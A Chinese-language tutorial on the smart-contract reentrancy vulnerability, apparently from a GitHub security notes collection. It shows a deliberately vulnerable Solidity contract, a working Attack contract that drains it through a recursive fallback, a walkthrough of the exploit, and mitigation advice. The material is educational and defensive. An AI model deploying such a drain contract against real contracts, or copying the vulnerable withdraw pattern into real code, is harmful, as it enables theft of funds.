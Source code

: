 重入漏洞
==

漏洞介绍
--

重入攻击(Reentrancy Attack)首次出现于以太坊，对应的真实攻击为 The DAO 攻击，此次攻击还导致了原来的以太坊分叉成以太经典(ETC)和现在的以太坊(ETH)。由于项目方采用的转账模型为先给用户发送转账然后才对用户的余额状态进行修改，导致恶意用户可以构造恶意合约，在接受转账的同时再次调用项目方的转账函数。利用这样的方法，导致用户的余额状态一直没有被改变，却能一直提取项目方资金，最终导致项目方资金被耗光。  


漏洞案例
--

1.部署一个包含重入漏洞的合约<code>EtherStore</code>  

    contract EtherStore {
        mapping(address => uint) public balances;

        function deposit() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdraw() public {
            uint bal = balances[msg.sender];
            require(bal > 0);

            (bool sent, ) = msg.sender.call{value: bal}("");
            require(sent, "Failed to send Ether");

            balances[msg.sender] = 0;
        }

        // Helper function to check the balance of this contract
        function getBalance() public view returns (uint) {
            return address(this).balance;
        }
    }
    
2.向<code>EtherStore</code>存入任意ETH，这里存入4个ETH  

![tempsnip](https://user-images.githubusercontent.com/35074461/197673688-924bfb1d-c253-4959-b7a7-b9f4acc3c9e9.png)


3.查看<code>EtherStore</code>余额，为4ETH  

![image](https://user-images.githubusercontent.com/35074461/197672627-c8e42e69-9233-4589-a15f-d722bd759608.png)

4.部署攻击合约<code>Attack</code>，地址填入<code>EtherStore</code>合约地址

    contract Attack {
        EtherStore public etherStore;

        constructor(address _etherStoreAddress) {
            etherStore = EtherStore(_etherStoreAddress);
        }

        // Fallback is called when EtherStore sends Ether to this contract.
        fallback() external payable {
            if (address(etherStore).balance >= 1 ether) {
                etherStore.withdraw();
            }
        }

        function attack() external payable {
            require(msg.value >= 1 ether);
            etherStore.deposit{value: 1 ether}();
            etherStore.withdraw();
        }

        // Helper function to check the balance of this contract
        function getBalance() public view returns (uint) {
            return address(this).balance;
        }
    }
5.使用<code>attack()</code>方法，向<code>EtherStore</code>合约转账1个ETH  

![image](https://user-images.githubusercontent.com/35074461/197674208-c5e45461-c663-4650-8853-58f31a713541.png)  

6.查看<code>Attack</code>合约余额发现为5个ETH，获得了4个ETH

![image](https://user-images.githubusercontent.com/35074461/197674478-73777950-7047-4ac9-b8ed-75d520101978.png)

漏洞分析
--

在<code>Attack</code>合约中,<code>attack()</code>方法会先向<code>EtherStore</code>合约转账一个ETH  

    etherStore.deposit{value: 1 ether}();  
    
然后请求<code>EtherStore</code>合约的<code>withdraw()</code>方法进行退款  

    etherStore.withdraw();  
    
漏洞出现在<code>withdraw()</code>方法中，合约会先判断账户是否有余额，如果有余额就使用call方法进行退款  

    (bool sent, ) = msg.sender.call{value: bal}("");  
    
然后才将账户余额置零  

    balances[msg.sender] = 0;  

当<code>Attack</code>合约收到转帐时会触发<code>fallback()</code>回调函数，在回调函数中会判断<code>EtherStore</code>合约是否还有余额，有的话就继续调用<code>withdraw()</code>方法  

    if (address(etherStore).balance >= 1 ether) {
        etherStore.withdraw();
    }

因为对攻击合约余额的判断在退款之后，所以会形成递归，每次退回1ETH直至<code>EtherStore</code>合约余额为空  

加固建议
--

1.状态变更需要在外部合约调用前完成  

2.使用防止重入的函数修饰  

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.13;

    contract ReEntrancyGuard {
        bool internal locked;

        modifier noReentrant() {
            require(!locked, "No re-entrancy");
            locked = true;
            _;
            locked = false;
        }
    }
